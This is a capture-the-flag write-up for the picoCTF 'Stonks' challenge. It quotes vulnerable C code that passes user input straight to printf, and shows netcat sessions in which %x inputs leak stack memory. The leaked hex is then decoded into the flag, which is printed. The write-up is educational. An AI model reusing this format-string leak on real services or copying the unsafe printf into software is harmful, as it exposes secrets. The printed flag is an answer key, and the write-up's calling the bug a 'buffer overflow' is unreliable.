 # Stonks

![alt text](image-4.png)

20 points

Author: madStacks
Description:

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. 
I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 33411


<details>
  <summary>Hints</summary>
  
<details>
    <summary>Hint1</summary>
            
### madStacks hint:
* Okay, maybe I'd believe you if you find my API key.
    
</details>
  
<details>
    <summary>Hint2</summary>

### Betim's hint:
* a printf function looks fishy somewhere in this program.

</details>

<details>
    <summary>Hint3</summary>

### Betim's hint:
* Maybe a %x can buy you some cool stocks

</details>

</details>


<details>
    <summary>Solution</summary>

### Solution
  * the madstacks hint is super unhelpful, but we can figure this out
  * A good place to start is the vuln.c program, take a look to see if you can figure it out before i tell you at the bottom

```
int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);

        int money = p->money;
        int shares = 0;
        Stonk *temp = NULL;
        printf("Using patented AI algorithms to buy stonks\n");
        while (money > 0) {
                shares = (rand() % money) + 1;
                temp = pick_symbol_with_AI(shares);
                temp->next = p->head;
                p->head = temp;
                money -= shares;
        }
        printf("Stonks chosen\n");

        // TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);

        // TODO: Actually use key to interact with API

        view_portfolio(p);

        return 0;
}
```

If this is your first time doing Binary Exploitation it might not be that obvious, it wasn't obvious to me either!

<Badge type="info" text="But take a look at this line"/>

```
printf(user_buf);
```

* What this line does is print out the userbuffer, which has been malloc'ed, but thats not the biggest thing about this

this is the paremeters for printf in C
```
printf [format] [argument]
``` 

* Essentially what printf(user_buf) is only taking in the argument and no formart! This is where we can exploit this. 
* When given only one paremeter we give printf an argument **or** parameter, that means we can give it %x or %s or whatever format we want for printf

<Badge type="info" text="btw we want to use %x" />

* when we provide something like %x will try to find the second argument, and when it can’t find anything, it will start printing data from the stack. 

Heres a visualization of the stack
![alt text](image.png)

now, its time to text if this really works...

```
┌──(kali㉿kali)-[~]
└─$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
8ac6390
Portfolio as of Mon Mar 11 15:50:56 UTC 2024


4 shares of CMR
19 shares of U
15 shares of GOF
30 shares of JL
162 shares of PRUT
Goodbye!

```

And it turns out it does! By inputing %x we can print data from the stack, 

and if we do this multiple times...

```
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?

Buying stonks with token:
96e5330804b00080489c3f7f4fd80ffffffff196e3160f7f5d110f7f4fdc7096e4180196e531096e53306f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ff94007df7f8aaf8f7f5d440c5ad420010f7decce9f7f5e0c0f7f4f5c0f7f4f000ff946e58f7ddd68df7f4f5c08048eca
Portfolio as of Mon Mar 11 16:16:15 UTC 2024


1 shares of SDEO
175 shares of I
Goodbye!
```

But, if you input all of this hex into something like cyberchef it wont come out right, thats because the machine that runs this is a little-endien machine.
* this basically means it swaps the bits around when displaying them

this is a visual for little-endienness 
![alt text](image-1.png)

Now knowing this lets put it in cyberchef!

![alt text](image-2.png)

* Although this does look like the answer it looks off
* since this is related to buffer overflow (which is what we're doing)
  * 1 byte can write over another so we can remove the hex values from the beginning that don't show us the flag

![alt text](image-3.png)

And there you go! We can now see the flag!

flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}

</details>